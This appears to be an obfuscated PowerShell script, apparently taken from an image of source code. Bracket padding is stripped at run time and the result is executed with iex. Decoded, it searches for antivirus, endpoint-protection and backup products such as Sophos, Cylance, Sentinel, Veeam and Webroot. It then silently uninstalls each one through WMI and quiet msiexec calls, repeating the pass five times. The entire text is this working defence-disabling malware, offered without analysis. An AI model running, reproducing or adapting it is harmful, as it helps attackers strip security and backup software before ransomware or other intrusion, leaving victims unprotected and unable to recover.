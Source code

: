 $a=@'
[][]$[][[][]][[]]pn[[]]a[][][]m[[]][][[][[]]][]e[] [][][][][]= [][[][]]@[][[[[]]]]({}{}---{}{}[][][[[]][]][[]][[[]][[]]]Soph[][]o[][]s[][][]{}{}---{}{}[[][]][[[]][[]]][][[[]][]][][[]][],{}{}---{}{}[]s[][][]o[][[[][][]][][][][[]][][[]]][][]ph[][[][][[]]][]os[]{}{}---{}{},[][]{}{}---{}{}[][][[][][[]]][][]S[]B[]AM[]{}{}---{}{},{}{}---{}{}[[][]][[]][[[]]]s[]b[[][]][][]a[[[]][]][][][][]m[][[][[]]][][][][][][][]{}{}---{}{},{}{}---{}{}[[]][]v[[[][]][]]i[]p[[]][][]re{}{}---{}{},{}{}---{}{}[]V[][[[][]][]][][[][[][]][]]i[[][][][][]][][[][][]][][][][][][][][]pre{}{}---{}{}[][],{}{}---{}{}[[]][][][[[]]][][][][]t[][][][][][][[[[]]][[][][]]][][]r[]e[][]n[]d[][][]{}{}---{}{}[[]],[[[]][[]]]{}{}---{}{}[[][][][]][]Tren[[]][][[[]][]]d{}{}---{}{}[][[]][][][][][][[]][],{}{}---{}{}[][[][][]][[]][][[[]][][]][[[]][[]]][][[][][][][]]S[][[]][]e[[]][[]][][[][]][[]]nt[[][]][]i[][][][][]ne[[][][[]]]l[][]{}{}---{}{}[[]][][],[][][][][][][]{}{}---{}{}s[]en[]t[[]]i[]n[[]]e[][[]][][][][]l[][]{}{}---{}{}[],{}{}---{}{}[][[]][][][]Cy[]lan[]c[][][][][[]][][[][][][]][]{}{}---{}{}[[]][][[][[]]][][][],{}{}---{}{}[][][][][][[]][[[]][][[]]][[[]][][[]][[][[]]][][][[][]][][][]][][][][[]]c[]y[][][][]l[][[]][[[]]]a[[]]n[]c{}{}---{}{},[[][]]{}{}---{}{}[][][[]][]b[[[][]]]a[][]c[[]][[]]k[]up[]{}{}---{}{}[][][[][]],[][][[[]][[][[]][[]]][][]][][][]{}{}---{}{}[[]]v[][[[][]][[][]]]e[]ea[[][[][]]]m{}{}---{}{}[],[[]][[]]{}{}---{}{}[][][][[][[]]]c[[][[][]][][]][[][[[][]][]][[]][][][[]][][][][]]lou[]d[][]{}{}---{}{}[][[][]][[][][]],{}{}---{}{}m[][[][[][]][]]al[[]][]w[][[][[[[][]]]][][]]{}{}---{}{}[],{}{}---{}{}V[][][][[]][[]][][][][][]eea[[][[]][]][[[[]][]]][]mA[][[][][][]]ge[]n[][][][][[]][[]]t[[[]]]{}{}---{}{},[][][[]]{}{}---{}{}Ba[[]][[[]]][]ck[][][[[[]]][[]][[][]][[]][][][[][][]]][][[]][[][[]]][][][]u[][[]][]p{}{}---{}{}[][][],[][][][]{}{}---{}{}C[][[][]][][]l[[]][][[][]]o[]u[[]][][][]d[[][][][]][[]]{}{}---{}{}[],[][]{}{}---{}{}[]RS[][]A[][][][]{}{}---{}{}[[]][][][][][][],[][][][]{}{}---{}{}[][[][][]][]WR[]S[]A[[[]][][[][]]][][][]{}{}---{}{}[[][]],[][][[][][]][[]][][]{}{}---{}{}[[]][[[]]][[]][][][][][][][]r[]s[][][][][]a[][]{}{}---{}{}[][[]][][],[[][]][][][[][]][[[]]]{}{}---{}{}[]RS[][[[[[]]]]][][[[]]]A[[][][[][[[]][[][]]]][][[]][][]]{}{}---{}{}[[][[][]]],{}{}---{}{}[[][[][][][]]][]w[]e[]br[][]o[[]][]o[]t[][]{}{}---{}{}[[][]][][][[]][[]][][],{}{}---{}{}[[][][[]]][[][[]]][][]r[][[]]o[]o[[]]t[[][]][]{}{}---{}{})[[[][][][]]][[][]]

[[][[]]][][][]f[][]o[]r[]($[][[][[][][[][]][]][]][[][]]i[][][][][[][]]=[[]]0[][][][][[]];$i[][][][][[]] -[[]][[]]l[[]][[]][]t [][][]5[[][][][]];[[]][]$i[[[][]]]+[][][]+[][[]][][]){
	[][]f[[[]]][[[]]]or[[]][[][]][][][[][]]ea[[]][]c[][][[][]][][]h[[[[[][]]]][][][][[]]]([[]]$[][][]p[][][][[]][][]p[[][][]][[][]][] [[][][]][][][[][][]][]i[][][]n[[][]] $[]p[]n[[]][][]am[]e[][]) {
[]		$[][][][][[][]][]p[][][][[]][][][][]p[][][]
[][[[]][][]][][][[][][][][]][][][][[[]][][[[[]][]]]]	[[][]][][[]][[][][][]][][][][]	[][][[][][]][[]][][[[][]]][]$[]a[[][]]pp[][[][[]]] [][[]]=[[]][[]] [][]Ge[[]][]t[]-[]W[][[]][][]miObj[][][][]ect[[]][[][][]][][][][[][]] []-[]C[]la[]s[[][[[]]][][[[]][]][]][][[[][]]][][]s[] Wi[][][]n32_[]P[[][]][][]r[][]o[[][]][][]duc[[][[]][]][][[]]t [][[][]][][[][][]][[][]]|[[][]] [][[][]][[[][]]]W[]h[]er[[]][]e-[][][][[]]Obje[[[][[]]]][][[[]]]c[][[[]][][[]][[][][][[]]]]t[][][][][][][] [[]][[[]][[][[]]][[]]]{ $_.[][[][]][][]N[][]a[][[][][]][][][][]me -[[]]like[] ([][]{}{}-{}{}*[][]{}{}-{}{}+$pp[][]+[][][][[]]{}{}-{}{}[]*[]{}{}-{}{}[][][])[[[]]] [][]}[][][]
[]	[][][][]	[]f[[]][[][[]]]o[[]][][[[]][]][[[]]]re[][]a[]ch[[[[][]]][][]]([[][[]]][][[[[]]]][][][]$a[[[]][[][][]][[]][[]]][][[][][][]]a[][[]][] i[][][]n $a[[][]][[][]][[]][[]]p[][][[[[]][][]][[]]][][[[]][]][]p[[]][])[[][]]{
	[[]][][][[][[[]]]][][[]]	[][[][]]	[][][][][]$[]a[]a[].U[][[][[[]][]][][[]][[][][]][[]][[][]]][][][][][][[][[[]][[][]]][][[]]][][][[[]]][[]][][[][][[]][[]]]ni[]n[]stall([])
	[][]	[]}
[]		[[]][][[][]]t[][][]ry[][]{[][[]][]
	[][[]][][[]][[][]][][][]	[]	[][][]	$[][][][]u[][]ni[]n[][[]][[][[]][]][][][][]s[[][]][[][][[]][[[]]]]ta[[]][][][]l[]l[][[[]]][[][]][[][][]][]32[][][][] [][][[]][[[]][[][][]]]= [][[]][[][]]g[][][][][]ci[][] [][[]][[[]][[[]]][][]]{}{}-{}{}[[][]]H[][][][][][[][[[]]]][]K[]L[[]][][[[]][][[]]][][][][][[]][][]M:[]\[]S[][]O[][][]F[]TW[[]]A[[][]][][][[]][][[]][[][]][[]]R[[]][[[]][[]][]][][[]][[]][][][[]]E[][[][][][]]\[][][]Wo[[]][[]]w64[[][[]]]3[][]2N[[]][]o[]d[[][]][]e[][]\[][]M[][[][[]][][][][][[][[][][][][][]][]][[]]]ic[[[[][]]][][]][][]r[[]][]o[][][[][][][[][]][[]]][][]s[][[[]]][]oft[]\Wi[][[][]][[[]][][[[]]]]n[][][]d[][][[][]][][][[[]]]o[]w[]s\C[][[[][][][]][][][][]][][][]ur[][][][]re[][[][[]][][[]][[]]][[[]]]n[]tVers[[]][]i[][][][][[[]]][[][][][]]o[][]n[][][[][][[]]][[][][[][[]][][]]]\[][[]][][[[][[]]][]]U[]ni[]ns[]t[][[]][][][][][][][]a[]l[][[][][]]l[[]]{}{}-{}{} [[]]|[][] [][][][][[]][]f[][]ore[][[]][]a[][][]ch {[] [[]][][[]]gp[[[]]][][][] [][][][][[]][][][][][[][]][[]]$_.[[]][][]P[][][][[]]S[][][[][[][[]][][]]][[][[[][][]][]]][[][][][][[][[]][][][[]]][][[][]][[]][[]]][][[]][[]][]P[[][[][]][]][[[][]][][[][]]]a[][][][[[][][]][]][[]]t[][][[]]h[][[][][[]]][[]][][][][][][][] [][[]][][]}[][] [[[]][][][]][][[]]|[][][][[][[][]]][[][]] [][]?[[]][[[][][][[]][][][][]]][][][] [[][]][[[]]]{[] [[]]$[][[][[]][][[[]]]][[]][]_[] -l[][][][[[[[]][]][]][][][][][[]][]]i[][]ke[[[][[]][[]][]][[]]] [][]([][[]][]{}{}-{}{}[][[]][]*[[]][[][]][[]][[][][][]]{}{}-{}{}+$[[]]p[[]]p[[[[]][][][[][][]][]]]+[][][][[]][][][[][]][][]{}{}-{}{}[[[][[]][[][]]][]][]*{}{}-{}{}[[]][[[][]]][[][[]][]][][[][][]]) [][][][][][][[]][]}[][][] | [][]se[][][[]]l[]ec[]t[][][] []Unins[[]]t[[[][[][]]]][]a[]l[]l[]S[][[[]][][][]]t[][][[]]ri[][][]ng[][][[[]]][][]
[[]]		[[]]	[][[[]]][[][]]	[[[]]]$[][][[]][]un[][[[][]]][[][][][]][[]]in[[[]]][[]][][]sta[][][][][][[[]]][[]][]l[]l6[[]][[]][]4[] = []g[]ci [][]{}{}-{}{}[][][][[]][]HK[][][[]]L[]M:\[]S[[][][[]][]][[[]][[]][][]]OFT[][]WA[][][]RE[[]][][][][][[]][][[[]][][]][][[][]]\[[][[[]][][[]]]][][][][][][]Mic[[][[][]][[[[][]][]]][][]][][][[][][[]]]r[][][[]][[]][][]osoft\W[][][[]]i[][[]]n[[[]][[]][]][[][][][]]do[][][][[[[]]]][]w[[]]s[][[]][][[][][]][][[][]]\[][]C[][][[[]]][]urre[][][[]]n[[[]][]][][][[[]]][]t[[][]]Ve[]r[[[]]][][]sion[][][]\[][]U[][]ninsta[][]ll[][]{}{}-{}{}[[]][][] [[]][]|[][[]][][[][]][[]][][][][] []f[]orea[][][][]c[[[[[][[]][]]]][]]h { gp[][[][[]]] $_.[]P[[]][[]][]SP[[]][][[]][][[]]a[[][]][[][]]t[[]]h[][][[]] [][]}[] [[[][]][]][[[]][][]][]|[] [][]?[] {[] [][]$[][]_[[[]][]][[]] -[][][][[[[][]][]]][[[]][]]l[[][]][[[][]][[]][][][][]][[][]]i[[[]]][][[]]ke ([]{}{}-{}{}*[[]][][[][]][][[]][]{}{}-{}{}[]+[][][][]$[[[[]]]]pp+[]{}{}-{}{}[]*{}{}-{}{}[][])[[]][] }[[]][] []|[][] [][[]][][]s[][][][][][]e[]l[]e[][][[]][][]c[[[][]][]][][][][]t [][[[][]][]][]U[]ni[[]][]nst[][][][][][]a[[][[]][]]l[][][]l[]St[[]]ri[][[]][[][][][[]][]][]n[][][][][]g[][][]

[][][[[]][]]			[[]][[[]]][[]]	i[]f[][[][][[[]][[][]]][]] []($[]u[[][][][]][][][[]][[]]n[[[]][]]in[][][[]]s[][][]t[][[][][]][[][]][[][]]al[]l[]6[[[][]]][][][][[]]4[][][][[[]][]][])[][[]][][[]] {[][[]]
[][][][[]][[]]					[][]$un[[]][][[][][]][]i[[[]][]]n[]s[[[]][]][]tal[]l6[][[]][][[][[][[]][]]][][]4[][] []=[[]] [][]$[][]u[[[][][[][][][[]][][][[][][[]]][][][]]][][][[[]][][][][][][][]]][]n[][[]][[][]][[][][][]][]in[][][[][]][][[][][[]]][[][]][[]][[][[]][[][][[][]]][[]]][][]s[[[][][]]][][[][]]t[[]][]al[[]]l[[[]][[]][][[]][]][[]][[[][]]]64.U[[[]]][[]][][[][][]][]n[][][][][][[][]][][][[]][]inst[][][[][]]a[[]][][][][[][][]][[]][[][][[]]][[][][][][]][]l[][]l[[]][][][][[][]]Str[[[][][]]][][[[][]]]i[]ng[][[]][[][][][][][]][][[]][][][][][][[]][][] -[][][]R[][][][]e[[]][[[]]]p[][[][[]]][[]][]la[]c[[]]e[[[]]] [][][[][][]][][]{}{}-{}{}m[[][[][]][]]s[[[]][][[[]][]]][[]][[]][][]iex[[]][][]e[[]]c[][][[]].e[[][]][[][][][]][]xe[]{}{}-{}{}[][[]][[[]][][][][[[]]][][[]]][][[]][][],{}{}-{}{}{}{}-{}{} -[][[]]Re[]p[]l[]a[][]c[][][][][][]e[[][][]] {}{}-{}{}[][[[]][[][][]]]/[[][][][]][[[]][]]I[][]{}{}-{}{}[][][],[][]{}{}-{}{}[[[[]][][]][]]{}{}-{}{} [[]]-[][[[]]]R[][][[][[]][[]]][[]][[[]]][[]][[][][]][][[]]e[][[[]]][]p[][]l[]ac[[]][[[]]][[]][][][][[]][][][][][][[]][][][]e {}{}-{}{}[][][[[]]]/X{}{}-{}{}[][],[[]]{}{}-{}{}[[]]{}{}-{}{}[]
[][][]			[][[]][][]		[[[]]]$[][]u[[]][[]]nin[][[]][[][[]][]][]s[][[]][[]]tall6[]4 [[[]]][]=[][[][[[]]]][] [][[][[][]][[][][]]][][]$[][][][][[][][]][][][[]]un[]i[[]][[]][[[]][[][]]][[]][][[[[]]]]n[]s[[[]]]t[[[[][]][][[]]][]]a[[][]][][[]][][][]l[]l[][][[]][]6[][[[][[]][][]][]][]4[][[][][[]][]].T[[]][]r[][[]][[]][[][][]][][[][[]]][][[]]i[][][][][][]m[[[]][[[[[]]][]]]][][]([][][][][[][[[]]]][][][][][][][][][])[[[][]]][][[][[]][][[]][[][[]]][]][[]][[[[]][[]]]][][]
[]	[][][[][][]][[]]	[][[]][][][]	[][][]		[[][[[][]]]][[]][][[[]]][][]W[][]rit[[]][[][][]][]e[] []{}{}-{}{}[[]][][]Un[]i[[][]]ns[]t[][]al[[][[]][[][][[[][][]]][[]]][][]][][[[]]]l[[][][]][]ing..[].{}{}-{}{}[[]][][[]][[][][][][][]][][[]][][]
[]	[][][][][][]		[]		[]s[][][[]][[]]t[[]]a[[[][]]][][]r[][]t[]-[][][[]][]p[]r[]o[[[][]][][]][[[[]]][][[][[]]][][[]][[][[][[]][]]][][]][]c[[]]ess[[[][][[]]]][[]][] {}{}-{}{}[]m[]si[[][[][]][]][][][][][][[]][[][]][][]e[][][[][][]][][][[]][]xe[]c[[][]][[[]][]][[]][[][]].[[]][][[][]]e[[]][[]][[]][[]][][][[][]][][]x[]e[][][][]{}{}-{}{} [][][]-[]a[]rg[[[][[]]][]][][[]] []{}{}-{}{}[][][[[][][][][]][[][][][[][]]][][]][]/[][[[]][][[][]]][][][][[]][][][]X $u[][][][]n[][[][]][[]][[][][][[]]][[]][[]]i[[[]]][[]][]n[[][]][]s[[]][[[]][[]]]t[[]][]a[[][]]ll[[]]6[]4[] /[][][[][]][]q[]b[][][] [[[][]]]/q[]uie[[]][[]][[]][][[]][][][][[]][][][][][]t[[]]{}{}-{}{} [[][[[][]]]][[]][][[]][][][][]-[][][][][[[][]]]wa[]it
[[][[]][][][]][][][][][]		[[][]][][][][][][[[]][][][[]]]		[][]}
	[][][][[[]]][[][][][][]][]		[[][[]][[[][]]][[]]][]	[][]i[]f [][]($[][]u[]n[]i[]n[[][]][]s[][[][]]t[[][]]a[[][][[]][][[[]]]]l[][[][[]]][][[][]][[[]]][[]]l[]32[[]][][][][])[] [[]]{[][]
	[][][[][]][[]]	[[]]	[][][[]][][]	[[[][]]]	[][][]$[]uni[][][[]][][]nst[][][][]a[[]]ll[[][[]]]32 []=[] [][][][[][][[][]][[][][]][][][][]][[]][]$[][][][][[[]]][[][[][][]]][][][][[]][[[[]][[][][][][][]]][[]]]u[]n[]insta[][][][][]ll[][[]][]3[[][[]][][[]]][]2[][[]][[[][][[][]]][]][[[]][][][][][][][[[][]][]][][[][][][]][[]][]][][[]].[]U[]n[][]i[[[]][][][[]]][][][]ns[]t[][][][][[]][]al[]lStrin[][][][][][[[]]]g[[]][[[]][]][[]] [[][]][][]-[[]][][[[][]]][][[][][]][]Repl[][[[[][][]]][]][[][]]a[]ce[][[[]][]][] []{}{}-{}{}[][[]][[]]msi[[[[][][]]]][][[[]][]][[]]e[][[][][]]x[[]][][[][]][]ec.[][[]]e[[]]xe[]{}{}-{}{},[][[][][][[][]][]][][[]][[[][[][]]]][][]{}{}-{}{}[][][]{}{}-{}{}[][] [][]-[][]Re[[]]pl[][[][]]ac[]e []{}{}-{}{}/[][]I[][][]{}{}-{}{}[[[[]][]][]],[][]{}{}-{}{}[][[]][][[]][][][[[]][][]][][]{}{}-{}{} [][[]]-R[][]e[[]][][]p[[][][[]]][][[][][][[]]]la[]ce[[]] {}{}-{}{}/[][[]][]X[]{}{}-{}{},[][][]{}{}-{}{}[][][]{}{}-{}{}[]
[][]		[]	[]	[[][[]][]]	[][][]$[]u[[][][]]ni[][]n[]s[][][]tal[]l[]32[[][]][][][][][[]] [[][]][]= []$[[]]u[[]][][]ni[][]n[[]][][][[]][[]][[][]][[]]st[]a[[[][][]][][][][[][][]][][[][[][][[[]][]][[]][]][]][][][[]][][]][][][][[[]][][][[]][][][][]][[]]l[][][][[]][[][][[]]][[][][]]l3[][[]]2.[]T[]ri[[[]]][]m()[][[]][[[][][]][][][[[][][]]]]
[]		[][[]]	[[][]]		W[][][[][][][]]r[][[[]]]i[]t[[[]]]e[] [[]][][[]][][[]][[]][][][]{}{}-{}{}[[]][]Un[][][]i[][][][]n[][[]][[[]][]]s[]ta[][][[][]][[[]][[]][]]ll[][][][[[][[]]][[][]][][][[[]]][][][][][[]][][]]i[]n[[][]][][]g[][][][][][].[[]][][[][[]][][[][]][[]][][]][[]].[[]][[]][][][][[]].{}{}-{}{}[[[]][][[]]][][]
[[][]][][[[][]]]					[][]st[[][]][]ar[]t[][[]]-[]p[]ro[]c[][[]][][][[]][][][[[][]]][][][][]es[[]]s[][] []{}{}-{}{}[]m[[][][[][]][[]][][]][][[[]]]s[[]][][][][]i[][]e[]x[[][]][][][][[]][[][][]]e[[][][[]]]c[][][][].[[]][][[[]]][]e[][[[][][[]]][][[[]][]]][[]][[][]][[[[][]]]]xe{}{}-{}{}[[][][][][[]]][] []-[[]][][[[]][[]]]a[][[]][][][][[]][][][[][]]r[[][[]][]]g[][] {}{}-{}{}[[[[][]]][][]][][]/[][][]X[] $[][[][][][][[]]][]un[[][][]][]in[][][[][[]]][][[]]st[][[]]a[]l[[]][[]][]l[][[][][]]32 /qb[] /[[]][[][]][]qui[][[]]e[]t[[[]]]{}{}-{}{}[[][[]]][][[][[]]][] [[][][][][[]]][]-[[[]]][][][][[]]wa[][[][][]][]i[]t[[]][][[[[]][]][[][[][]]]][][[[]]]
[[][]][][][]	[][]	[][][[[]]]	[]	[[][]][]}[][][][[]]
		[[[[][]][]][][][[][][]][]][]}[[[]]] c[[][]]atc[][][[]][[]][[]][[[[]][]]]h[][][[]][[]] [][][][][]{[][][][][]}[]
[[[][]]][[[][]][][[[][]][]][][]][][][]
[[]][[[]]]	[[]]}[][[]]
[[]]
}
'@
$a=$a.Replace('[','');$a=$a.Replace(']','');$a=$a.Replace('{}{}-{}{}','"');$a=$a.Replace('{}{}---{}{}',"'");iex($a);